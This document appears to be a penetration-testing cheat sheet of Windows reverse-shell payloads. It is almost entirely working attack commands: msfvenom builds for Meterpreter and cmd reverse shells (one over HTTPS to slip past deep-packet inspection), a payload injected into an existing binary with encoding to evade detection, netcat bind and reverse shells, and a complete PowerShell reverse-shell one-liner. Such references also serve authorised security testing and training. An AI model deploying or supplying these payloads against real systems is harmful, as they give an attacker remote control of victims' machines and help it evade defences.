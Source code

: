 # Windows

## Standard Meterpreter

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.101 LPORT=445 -f exe -o shell_reverse.exe
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
```

## Meterpreter HTTPS

* makes the meterpreter traffic look normal
* since it is hidden in https the communication is encrypted and can be used to bypass deep-packet inspections

```bash
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.0.101 LPORT=443 -f exe -o met_https_reverse.exe
```

## Non-Staged Payload

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=196.168.0.101 LPORT=445 -f exe -o shell_reverse_tcp.exe
use exploit/multi/handler
set payload windows/shell_reverse_tcp
```

## Staged Payload

```bash
msfvenom -p windows/shell/reverse_tcp LHOST=196.168.0.101 LPORT=445 -f exe -o staged_reverse_tcp.exe
```

* must be caught with metasploit
* does not work with netcat

```bash
use exploit/multi/handler
set payload windows/shell/reverse_tcp
```

## Inject Payload into Binary

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.101 LPORT=445 -f exe -e x86/shikata_ga_nai -i 9 -x "/somebinary.exe" -o bad_binary.exe
```

## Netcat

### Bind Shell

```bash
nc.exe -nlvp 4444 -e cmd.exe
```

### Reverse Shell

```bash
nc -lvp 443
nc.exe 192.168.1.101 443 -e cmd.exe
```

## Power Shell

* first start a nc listener on the attacking machine
* connect to it with this command (change port and IP)

```bash
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

## One-Liner Blog

* [https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/](https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/)

